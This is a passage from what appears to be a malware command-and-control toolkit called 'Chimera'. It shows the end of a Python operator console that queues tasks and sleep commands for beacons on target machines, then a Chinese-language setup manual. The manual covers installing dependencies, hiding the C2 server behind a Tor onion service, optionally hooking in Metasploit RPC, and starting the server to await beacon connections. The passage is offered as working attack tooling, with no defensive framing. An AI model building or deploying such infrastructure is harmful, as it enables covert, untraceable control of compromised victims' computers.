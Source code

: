 ```python
                if bid in beacons:
                    beacons[bid]['tasks'].append(task_cmd)
                    print(f"[*] Task '{task_cmd}' queued for beacon {bid}.")
                else:
                    print(f"[-] Beacon ID '{bid}' not found.")
        elif command == 'sleep' and len(parts) >= 3:
            bid, sleep_time = parts[1], parts[2]
            task_cmd = f"sleep {sleep_time}"
            with lock:
                 if bid in beacons:
                    beacons[bid]['tasks'].append(task_cmd)
                    print(f"[*] Sleep task '{task_cmd}' queued for beacon {bid}.")
                 else:
                    print(f"[-] Beacon ID '{bid}' not found.")
        else:
            print("[-] Invalid command. Type 'help' for options.")

if __name__ == "__main__":
    main()
```

---

### **安装与操作手册**

**1. 环境准备 (C2 服务器 和 目标机):**

* **Python 3**: 确保安装了 Python 3.8 或更高版本。
* **依赖库**: 在您的本地机器上安装所有必需的 Python 库。
  ```bash
  pip install cryptography pysocks msfrpc-client
  ```

**2. C2 服务器设置:**

* **安装 Tor**: 在您的服务器上安装 Tor (`sudo apt-get install tor` on Debian/Ubuntu)。
* **配置 Tor 隐藏服务**:
  1. 编辑 Tor 配置文件 `torrc` (通常在 `/etc/tor/torrc`)。
  2. 添加以下两行来设置隐藏服务，将 C2 流量转发到我们 Python 脚本的监听端口：
     ```
     HiddenServiceDir /var/lib/tor/chimera_service/
     HiddenServicePort 80 tcp 127.0.0.1:8080
     ```
  3. 重启 Tor 服务: `sudo systemctl restart tor`.
  4. 获取您的 Onion 地址: `sudo cat /var/lib/tor/chimera_service/hostname`. 这会显示一个 `.onion` 地址，例如 `7d2x...x2q.onion`。
* **配置 Metasploit (可选)**:
  1. 启动 Metasploit Framework Console。
  2. 加载 RPC 服务: `msf6 > load msgrpc Pass=msfpassword` (使用一个强密码)。
* **启动 C2**:
  1. 运行 C2 脚本: `python chimera_c2.py`.
  2. 服务器现在正在监听，等待来自 Beacon 的连接。
